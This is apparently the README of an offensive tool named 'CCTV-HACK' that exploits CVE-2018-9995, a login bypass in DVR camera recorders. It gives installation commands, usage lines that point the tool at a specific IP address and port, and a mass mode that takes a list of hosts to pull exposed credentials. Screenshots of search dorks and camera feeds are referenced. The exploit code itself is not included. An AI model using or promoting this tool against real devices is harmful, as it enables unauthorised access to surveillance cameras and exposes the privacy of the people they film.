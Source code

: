 #  [Exploit] DVR LOGIN BYPASS (CCTV-HACK)
<s>  
CVE:                CVE-2018-9995<br>
CVSS Base Score v3:      7.3 / 10
</s>

	
![DVR_wall](screenshot/videowall.jpg) 


# On the Wild:

![DVR_dorks_2](screenshot/d1.jpg)
![DVR_dorks_3](screenshot/d2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/login1.jpg)
![DVR_login_2](screenshot/login2.jpg)
![DVR_login_3](screenshot/login3.jpg)

## Indoor:
![DVR_indoor_1](screenshot/in.jpg)
![DVR_indoor_2](screenshot/in1.jpg)
![DVR_indoor_3](screenshot/in2.jpg)



# TOOL: "CCTV-HACK"

## Installation Code
'''

	git clone https://github.com/tausifzaman/cctv-hack
	cd cctv-hack
	pip install -r requirements.txt
    python cctv.py

'''

## Usages 

	usage: python cctv.py
or,             python cctv.py --host 109.100.130.57 --port 8000
or,             python cctv.py -m target.txt

	[+] Obtaining Exposed credentials

options:
  -h, --help            show this help message and exit
  --host HOST           Host
  --port PORT           Port
  -m MASS, --mass MASS  File with host:port or URL list


## Pocs (Output) :
![DVR_poc_4](screenshot/output.jpg)


